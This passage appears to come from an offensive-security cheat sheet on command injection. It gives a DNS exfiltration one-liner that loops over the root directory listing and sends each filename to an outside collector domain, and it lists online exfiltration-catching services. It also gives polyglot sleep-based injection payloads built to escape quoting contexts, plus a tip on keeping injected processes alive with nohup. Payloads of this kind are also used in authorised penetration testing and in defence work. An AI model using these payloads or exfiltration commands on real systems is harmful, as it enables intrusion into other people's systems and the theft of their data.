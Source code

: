 ### Dns Based Data Exfiltration

Based on the tool from [HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin), also hosted at [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. Go to [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
2. Execute a simple 'ls'

  ```powershell
  for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
  ```

Online tools to check for DNS based data exfiltration:

* [dnsbin.zhack.ca](http://dnsbin.zhack.ca)
* [app.interactsh.com](https://app.interactsh.com)
* [portswigger.net](https://portswigger.net/burp/documentation/collaborator)

## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:

  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```

* Example 2:

  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```

## Tricks

### Backgrounding Long Running Commands

In some instances, you might have a long running command that gets killed by the process injecting it timing out.
Using `nohup`, you can keep the process running after the parent process exits.
